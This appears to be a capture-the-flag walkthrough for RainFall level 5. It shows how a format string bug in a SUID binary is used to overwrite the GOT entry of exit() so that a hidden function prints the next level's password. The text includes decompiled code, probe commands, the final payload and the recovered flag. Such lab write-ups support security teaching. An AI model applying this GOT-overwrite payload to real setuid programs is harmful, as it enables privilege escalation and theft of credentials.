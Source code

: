 # Level 5 Walkthrough

## Who am I?

```bash
level5@RainFall:~$ id
uid=2026(level5) gid=2026(level5) groups=2026(level5),100(users)
```

## Where am I?

```bash
level5@RainFall:~$ ls -l
-rwsr-s---+ 1 level6 users 5252 Mar  6  2016 level5*
```

We are in possession of a SUID binary owned by `level6`. Our objective is to exploit this binary to execute a command as `level6` and retrieve the contents of the `.pass` file.

---

## Program Behavior

Running the binary:

```bash
level5@RainFall:~$ ./level5
hello
hello
```

No crash, even when injecting long strings:

```bash
level5@RainFall:~$ python -c "print('A'*200)" | ./level5
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

This suggests the program uses `fgets()`, which safely limits input size.

---

## Decompiled Structure (via Ghidra)

```c
void main(void)
{
  n();
  return;
}

void n(void)
{
  char local_20c [520];

  fgets(local_20c, 0x200, stdin);
  printf(local_20c);

  exit(1);
}

void o(void)
{
  system("/bin/cat /home/user/level6/.pass");
  _exit(1);
}
```

---

## Format String Vulnerability

`printf()` is called with user input, without format string control:

```c
printf(local_20c); // vulnerable
```

This introduces a classic format string vulnerability. We can try to leak stack values:

```bash
python -c 'print "AAAA %x %x %x %x %x %x %x %x %x %x"' | ./level5
```

We find `41414141` (AAAA) at the **4th** position on the stack. So we will use `%4$n`.

---

## Exploitation Strategy

We know:

* `exit()` is called at the end of `n()`
* `exit()` has an entry in the GOT at `0x08049838`, which stands for Global Offset Table. The GOT is a section in memory used by dynamically linked executables to hold the addresses of external functions. When a function like `exit()` is first called, the binary looks up its actual address via the GOT. Since the GOT is writable, it becomes a valuable target for attackers who want to hijack control flow by replacing the function's address with another, in this case, pointing `exit()` to the hidden `o()` function.
* There's a hidden function `o()` at `0x080484a4` which prints the flag

We want to overwrite the GOT entry of `exit` to point to `o`, so that when `exit()` is called, it executes `o()` instead.

We verify addresses:

```bash
objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

```gdb
(gdb) info functions o
0x080484a4  o
```

Now we build a payload to overwrite the GOT entry of `exit()` (at `0x08049838`) with the value `0x080484a4` using the format string exploit.

We test a simple probe:

```bash
python -c 'print "\x38\x98\x04\x08" + " %x" * 10' > /tmp/exploit
cat /tmp/exploit | ./level5
8 200 b7fd1ac0 b7ff37d0 8049838 20782520 25207825 78252078 20782520 25207825 78252078
```

We observe that the address lands at the 4th argument → use `%4$n`.

### Final Payload

We need to print `134513828` characters (decimal value of `0x080484a4`) before `%n` is triggered.

```bash
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit
cat /tmp/exploit - | ./level5
```

This replaces the GOT entry of `exit()` with `o()`, which is executed as soon as `exit()` is called:

```bash
                                               512
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

---

## Conclusion

This level demonstrates how a format string vulnerability can be used to overwrite function pointers inside the GOT. Specifically, we:

* Identified that `printf()` is called with user input and no format string
* Found a hidden function `o()` that reveals the flag
* Determined the GOT address of `exit()` → `0x08049838`
* Overwrote that address with `0x080484a4` (address of `o()`)
* Used `%n` at offset 4 on the stack to perform the write
* Upon program exit, our payload triggered execution of `o()` and revealed the flag

Dynamic analysis with GDB and memory inspection was essential to confirm addresses and offsets precisely, allowing a reliable exploitation strategy.

---

## Files in this repository

* `flag.txt`: file containing the retrieved flag
* `asm_analysis.md`: GDB analysis of the binary
* `source/`: contains `ghidra/` (raw Ghidra decompilation) and `clean/` (cleaned C, faithful to binary)
